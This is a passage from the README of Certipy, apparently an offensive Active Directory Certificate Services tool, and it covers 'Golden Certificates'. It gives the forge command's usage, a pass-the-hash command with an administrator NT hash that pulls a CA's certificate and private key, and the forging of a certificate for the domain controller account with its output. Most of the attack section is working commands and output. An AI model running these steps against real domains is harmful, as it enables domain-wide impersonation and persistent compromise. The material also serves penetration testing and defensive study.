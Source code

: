 This action is useful if you just want the NT hash or TGT for further authentication. It is possibly to manually add, authenticate, and delete the Key Credential, if desired. See the usage or [blog post](https://research.ifcr.dk/34d1c26f0dc6) for more information. 

### Golden Certificates

Golden Certificates are certificates that are manually forged with a compromised CA's certificate and private key, just like Golden Tickets are forged with a compromised `krbtgt` account's NT hash.

```
Certipy v2.0.8 - by Oliver Lyak (ly4k)

usage: certipy forge [-h] -ca-pfx pfx/p12 file name -alt alternative UPN [-template pfx/p12 file name] [-subject subject] [-crl ldap path] [-serial serial number] [-debug] [-out output file name]

optional arguments:
  -h, --help            show this help message and exit
  -ca-pfx pfx/p12 file name
                        Path to CA certificate
  -alt alternative UPN
  -template pfx/p12 file name
                        Path to template certificate
  -subject subject      Subject to include certificate
  -crl ldap path        ldap path to a CRL
  -serial serial number
  -debug                Turn debug output on

output options:
  -out output file name
```

In order to forge a certificate, we need the CA's certificate and private key.

Certipy can automatically retrieve the certificate and private key with the `-backup` parameter. In order to do so, the user must have administrative privileges on the CA server.

```bash
$ certipy ca 'corp.local/administrator@ca.corp.local' -hashes :a87f3a337d73085c45f9416be5787d86 -backup
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Creating new service
[*] Creating backup
[*] Retrieving backup
[*] Got certificate and private key
[*] Saved certificate and private key to 'corp-CA.pfx'
[*] Cleaning up
```

With the CA's certificate and private key, we can for instance forge a certificate for the domain controller `DC$`:

```bash
$ certipy forge -ca-pfx 'corp-CA.pfx' -alt 'DC$@corp.local'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Saved forged certificate and private key to 'dc.pfx'
```
